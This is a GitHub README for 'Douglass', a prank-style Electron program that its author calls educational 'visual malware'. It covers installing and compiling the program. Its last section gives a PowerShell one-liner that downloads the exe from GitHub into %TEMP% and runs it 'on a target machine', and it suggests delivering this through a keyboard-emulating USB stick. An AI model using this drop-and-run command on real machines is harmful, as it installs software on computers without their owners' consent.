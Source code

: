 # Douglass
Simple visual malware developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```
